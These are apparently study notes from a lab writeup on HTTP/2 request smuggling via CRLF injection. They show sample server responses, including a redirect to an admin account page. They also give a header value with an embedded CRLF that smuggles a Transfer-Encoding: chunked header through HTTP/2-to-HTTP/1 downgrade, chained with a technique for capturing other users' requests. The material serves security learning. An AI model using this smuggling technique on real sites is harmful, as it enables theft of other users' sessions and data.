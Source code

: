 Response 1:
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Set-Cookie: session=wlmiF2SlpSDRYSidwWjeTTSVmc29kTjW; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 10396
```

Response 2:
```http
HTTP/2 404 Not Found
Content-Type: application/json; charset=utf-8
Set-Cookie: session=HtSvw81O1CPbNGfj2N1dijtWPdpprYfe; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 11

"Not Found"
```

Response ...n (admin my-account):
```http
HTTP/2 302 Found
Location: /my-account
Set-Cookie: session=hrF8iMghvGseTRSkv9iCtkuIXfvyTh4H; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

# Request smuggling via CRLF injection

Even if websites take steps to prevent basic H2.CL or H2.TE attacks, such as validating the `content-length` or stripping any `transfer-encoding` headers, HTTP/2's binary format enables some novel ways to bypass these kinds of front-end measures.

As HTTP/2 messages are binary rather than text-based, the boundaries of each header are based on explicit, predetermined offsets rather than delimiter characters. This means that `\r\n` no longer has any special significance within a header value and, therefore, can be included **inside** the value itself without causing the header to be split:

```http
HTTP/2
foo	bar\r\nTransfer-Encoding: chunked

HTTP/1
Foo: bar
Transfer-Encoding: chunked
```

Chained with [Capturing other user' requests](Exploiting%20HTTP%20Request%20Smuggling.md#Capturing%20other%20user'%20requests) technique to exfiltrate other user's secret:

*Home page* saves recent researches:
```html
...
<label>Recent searches:</label>
	<ul>
		<li><a href="/?search=xioqo5ya1%27%22%3c%3e">xioqo5ya1&apos;&quot;&lt;&gt;</a></li>
		<li><a href="/?search=test">test</a></li>
		<li><a href="/?search=foo">foo</a></li>
...
```
